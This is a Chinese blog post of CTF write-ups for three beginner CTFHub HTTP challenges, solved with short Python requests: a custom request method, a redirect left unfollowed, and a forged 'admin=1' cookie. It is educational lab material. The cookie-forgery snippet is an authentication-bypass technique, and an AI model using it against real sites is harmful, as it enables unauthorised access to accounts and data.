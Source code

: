 ```yaml
---
title: "ctf入门-http基础"
date: 2022-10-19T17:03:19+08:00
draft: false
tags: ["net"]
categories: 
- CTF
---
```


CTFHUB技能树的题目<br>
web-web前置技能-http协议
<!--more-->

---------

# 请求方式

## 题目

HTTP 请求方法, HTTP/1.1协议中共定义了八种方法（也叫动作）来以不同方式操作指定的资源。<br>还给了一个url

## 解题过程

打开url后，显示如下：

> HTTP Method is GET Use CTF**B Method, I will give you flag.<br>
> Hint: If you got 「HTTP Method Not Allowed」 Error, you should request index.php.

发现是要用`CTFHUB`这个方法请求这个url

用py写如下代码：

```python
from urllib import request

req = request.Request(method='CTFHUB', url='http://challenge-7c8a21f5ac0bee47.sandbox.ctfhub.com:10080/index.php')
res = request.urlopen(req)
print(res.read())
```

返回了html文档，其中便有flag

# 302跳转

## 题目

HTTP临时重定向<br>依旧给了个url

## 解题过程

访问url，显示：

```html
<body>
		<center>
			<h1>No Flag here!</h1>
            <a href="index.php">Give me Flag</a>
		</center>
</body>
```

chrome抓包发现对index.php的请求302到了index.html~

利用python访问url并禁止跳转

```python
import requests

url = "http://challenge-2d971fb5ad995d8f.sandbox.ctfhub.com:10800/index.php"
req = requests.get(url=url, allow_redirects=False)
print(req.text)
```

# Cookie

## 题目

Cookie欺骗、认证、伪造<br>以及url

## 解题过程

访问url，提示：

> hello guest. only admin can get flag.

查看请求头，发现`Cookie: admin:0`,故而应该是请求时传入cookies

```python
import requests

url = "http://challenge-1ff467c75ff8e3e2.sandbox.ctfhub.com:10800"
req = requests.get(url=url, cookies={'admin':'1'})
print(req.text)
```

即可获得flag
